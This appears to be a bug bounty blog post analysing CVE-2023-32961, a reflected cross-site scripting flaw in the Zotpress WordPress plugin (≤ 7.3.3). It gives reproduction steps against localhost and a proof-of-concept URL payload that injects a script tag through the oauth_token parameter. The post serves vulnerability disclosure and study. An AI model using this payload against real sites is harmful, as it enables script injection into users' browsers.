 ```yaml
---
layout: post
date: 2023-05-16
title: "CVE-2023-32961 Analysis"
tags: [webhacking, ]
categories: [bugbounty, WordPress, ]
---
```



### Component details


---


#### Component name


Zotpress


#### Vulnerable version


≤ 7.3.3


#### Component slug


zotpress


#### Component link


[https://wordpress.org/plugins/zotpress/](https://wordpress.org/plugins/zotpress/)


### Pre-requisite


---


Unauthenticated


### Vulenerability details


---


#### Short description


`get_request_token` function in `zotpress/lib/admin/admin.accounts.oauth.php` is vulnerable to a XSS attack.


#### How to reproduce (PoC)

1. Install the oauth php extension to trigger the vulnerability. (This is Zotpress's optional)
2. Login to [zotero.org](http://zotero.org/)
3. Conditions must be met for the `get_request_token` function to execute. (first time only)
Send a payload like this: `http://localhost:8080/wp-content/plugins/zotpress/lib/admin/admin.accounts.oauth.php?return_uri=http://localhost:8080&oauth_token=1`
4. Send a below payload
`http://localhost:8080/wp-content/plugins/zotpress/lib/admin/admin.accounts.oauth.php?return_uri=http://localhost:8080&oauth_token="><script>alert(1)</script>`

#### Additional information

- You need a [zotero.org](http://zotero.org/) account.
- You need to set the oauthState value to 1 to trigger it. If the above payload doesn't work, you need to find a way to set oauthState to 1.
	- conditional expression :

		
{% raw %}
```php
		$_GET['oauth_token'] != $state['request_token_info']['oauth_token']
```
{% endraw %}


- Easy to install php oauth extension:
	- One Line Command :

		
{% raw %}
```shell
		sudo su; apt-get update; apt-get -y install gcc make autoconf libc-dev pkg-config libpcre3-dev; pecl install oauth; bash -c "echo extension=oauth.so > $PHP_INI_DIR/conf.d/oauth.ini"; service apache2 restart
```
{% endraw %}


- Tested in wordpress:latest Docker image.

#### PoC Video


{% include embed/youtube.html id='5kZ7bNbs_-Q' %}


### References


---


[CVE-2023-32961](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-32961)

